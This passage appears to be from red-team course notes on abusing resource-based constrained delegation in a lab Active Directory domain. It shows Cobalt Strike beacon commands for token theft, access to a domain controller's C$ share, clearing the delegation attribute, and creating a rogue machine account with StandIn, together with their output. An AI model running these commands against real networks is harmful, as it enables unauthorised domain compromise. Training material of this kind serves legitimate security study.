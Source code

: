 ```
[+] LUID            : 0x6cb934

beacon> steal_token 4092
[+] Impersonated DEV\bfarmer

beacon> ls \\dc-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:44:08   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 16:09:55   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 10:51:51   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/12/2022 09:45:09   ProgramData
          dir     08/15/2022 15:23:23   Recovery
          dir     08/16/2022 12:37:38   Shares
          dir     09/05/2022 12:03:43   System Volume Information
          dir     08/15/2022 15:24:39   Users
          dir     09/12/2022 09:28:56   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 1kb      fil     08/15/2022 16:16:13   dc-2.dev.cyberbotic.io_sub-ca.req
 12kb     fil     09/05/2022 07:25:58   DumpStack.log
 12kb     fil     09/13/2022 09:25:49   DumpStack.log.tmp
 384mb    fil     09/13/2022 09:25:49   pagefile.sys
```
  

To clear up, simply remove the msDS-AllowedToActOnBehalfOfOtherIdentity entry on the target.
```
beacon> powershell Get-DomainComputer -Identity dc-2 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity
```
  

If you did not have local admin access to a computer already, you can resort to creating your own computer object.  By default, even domain users can join up to 10 computers to a domain - controlled via the _ms-DS-MachineAccountQuota_ attribute of the domain object.
```
beacon> powershell Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota

ms-ds-machineaccountquota
-------------------------
                       10
```

[StandIn](https://github.com/FuzzySecurity/StandIn) is a post-ex toolkit written by [Ruben Boonen](https://twitter.com/FuzzySec) and has the functionality to create a computer with a random password.
```
beacon> execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make

[?] Using DC    : dc-2.dev.cyberbotic.io
    |_ Domain   : dev.cyberbotic.io
    |_ DN       : CN=EvilComputer,CN=Computers,DC=dev,DC=cyberbotic,DC=io
    |_ Password : oIrpupAtF1YCXaw

[+] Machine account added to AD..
```
  